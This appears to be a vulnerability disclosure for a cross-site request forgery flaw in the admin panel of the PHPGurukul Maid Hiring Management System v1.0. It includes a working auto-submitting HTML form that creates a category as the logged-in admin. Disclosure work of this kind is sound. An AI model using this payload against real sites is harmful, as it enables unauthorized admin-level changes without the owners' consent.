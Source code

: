 **Project Name & Repo URL:**
[Maid Hiring Management System using PHP and MySQL](https://phpgurukul.com/maid-hiring-management-system-using-php-and-mysql/)

**Vulnerability Type:**
Client Side Request Forgery

**Affected Version(s):** v1.0

**💣Vulnerability Description:**
A Cross-Site Request Forgery (CSRF) vulnerability exists in the admin panel of PHPGurukul Hiring Management System, allowing an attacker to add arbitrary hiring categories by tricking an authenticated admin into visiting a malicious site. This can lead to data pollution and unauthorized admin-level changes.

**👩‍💻Impact:**
Unauthorized category creation

**🛜Proof-of-Concept (PoC)**
1) There was a category add functionality where only authenticated admin can add category.
![1](https://github.com/user-attachments/assets/6547be87-9f43-4e34-b8c0-e4138ac3f9e3)
2) Craft a POST request to the endpoint `/admin/add-category.php`
**CSRF-POC**

<html>
  <body>
    <form action="http://127.0.0.1/mhms/admin/add-category.php" method="POST">
      <input type="hidden" name="catname" value="CSRF&#45;POC" />
      <input type="hidden" name="submit" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
